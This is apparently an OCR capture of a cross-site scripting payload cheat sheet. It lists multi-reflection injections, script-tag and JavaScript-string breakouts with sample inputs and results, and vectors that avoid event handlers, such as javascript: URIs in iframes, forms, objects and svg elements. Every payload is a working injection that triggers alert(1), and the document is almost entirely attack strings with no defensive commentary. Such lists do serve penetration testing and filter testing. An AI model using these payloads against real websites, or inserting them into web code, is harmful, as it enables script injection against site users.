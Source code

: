 p=<svg 1='&q='onload='/*&r=*/alert(1)'>

Multi Reflection XSS

<svg onload=write(1)>
 p='onload=alert(1)><svg/1='
'onload=alert(1)><svg/1='
… [code] …
'onload=alert(1)><svg/1='
p='>alert(1)</script><script/1='
p=*/alert(1)</script><script>/*
*/alert(1)</script><script>/*
… [code] …
*/alert(1)</script><script>/*
p=*/alert(1)">'onload="/*<svg/1='
p=`-alert(1)">'onload="`<svg/1='
`-alert(1)">'onload="`<svg/1='
… [code] …
`-alert(1)">'onload="`<svg/1='
… [code] …
`-alert(1)">'onload="`<svg/1='
p=*/</script>'>alert(1)/*<script/1='
*/</script>'>alert(1)/*<script/1='
… [code] …
*/</script>'>alert(1)/*<script/1='
… [code] …
*/</script>'>alert(1)/*<script/1='
p=<svg/1='&q='onload=alert(1)>
p=<svg 1='&q='onload='/*&r=*/alert(1)'>
var n = {a: "$p", b: "$p"};
(double reflection, single input $p)
var n = {a: "$p", b: "$q"};
(double reflection, double input $p and $q)

INPUT

p=-alert(1)}//\
RESULT*
var n = {a: "-alert(1)}//\", b: "-alert(1)}//\"};

INPUT

p=\&q=-alert(1)//
RESULT*
var n = {a: "\", b: "-alert(1)}//"};

Without Event Handlers

<script>alert(1)</script>
<script src=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<embed src=javascript:alert(1)>
<a href=javascript:alert(1)>click
<math><brute href=javascript:alert(1)>click
<form action=javascript:alert(1)><input type=submit>
<isindex action=javascript:alert(1) type=submit value=click>
<form><button formaction=javascript:alert(1)>click
<form><input formaction=javascript:alert(1) type=submit value=click>
<form><input formaction=javascript:alert(1) type=image value=click>
<form><input formaction=javascript:alert(1) type=image src=SOURCE>
<isindex formaction=javascript:alert(1) type=submit value=click>
<object data=javascript:alert(1)>
<iframe srcdoc=<svg/onload=alert(1)>>
<svg><script xlink:href=data:,alert(1) />
<math><brute xlink:href=javascript:alert(1)>click
<svg><a xmlns:xlink=http://www.w3.org/1999/xlink xlink:href=?><circle r=400 /><animate attributeName=xlink:href begin=0 from=javascript:alert(1) to=&>
